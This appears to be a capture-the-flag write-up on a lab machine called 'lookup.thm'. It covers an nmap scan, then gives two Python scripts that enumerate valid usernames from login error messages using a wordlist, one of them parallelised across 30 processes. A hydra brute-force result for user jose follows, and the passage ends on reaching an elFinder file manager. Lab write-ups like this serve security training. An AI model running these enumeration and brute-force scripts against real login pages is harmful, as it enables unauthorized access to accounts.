 # lookup
the first thing is doing an nmap scan, and found that there are some ports that are open

   
But if we look closely at the websiteâ€™s behavior, we can observe that it is possible to enumerate valid usernames based on the error we are getting from the website upon a failed login:

Trying admin:admin


Trying fig:admin


We can write a small python script that would help us enumerate valid usernames:
import requests

# Define the target URL
url = "http://lookup.thm/login.php"

# Define the file path containing usernames
file_path = "/usr/share/seclists/Usernames/Names/names.txt"

# Read the file and process each line
try:
    with open(file_path, "r") as file:
        for line in file:
            username = line.strip()
            if not username:
                continue  # Skip empty lines
            
            # Prepare the POST data
            data = {
                "username": username,
                "password": "password"  # Fixed password for testing
            }

            # Send the POST request
            response = requests.post(url, data=data)
            
            # Check the response content
            if "Wrong password" in response.text:
                print(f"Username found: {username}")
            elif "wrong username" in response.text:
                continue  # Silent continuation for wrong usernames
except FileNotFoundError:
    print(f"Error: The file {file_path} does not exist.")
except requests.RequestException as e:
    print(f"Error: An HTTP request error occurred: {e}")
  
  
import requests
import multiprocessing

target = 'http://lookup.thm/login.php'
username_file = '/usr/share/wordlists/seclists/Usernames/Names/names.txt'

def init_session():
    # Create a session per process for connection reuse
    global session
    session = requests.Session()

def user_check(name):
    data = {"username": name, "password": "password"}
    try:
        response = session.post(target, data=data, timeout=5)
        if "Wrong password" in response.text:
            print(f"User found: {name}")
    except requests.RequestException as e:
        print(f"[!] Error checking {name}: {e}")

if __name__ == "__main__":
    try:
        with open(username_file, 'r') as user_file:
            users = [line.strip() for line in user_file if line.strip()]

        # Use a pool of 30 processes and initialize session in each
        with multiprocessing.Pool(processes=30, initializer=init_session) as pool:
            pool.map(user_check, users)

    except FileNotFoundError:
        print(f'Error: File path {username_file} does not exist.')


Using this scripts found  some users:

   

Now lets try a brute force for user jose using hydra:
[80][http-post-form] host: lookup.thm   login: jose   password:

found one valid password for jose
Lets try login with user jose using the password that we found and we:
landed in something called “elFinder”. This looks like a file manager.

There are quite a few files here, and they all contain what seems to be passwords. Still, before we try another brute-force, let’s see if we can identify the version of elfinder:
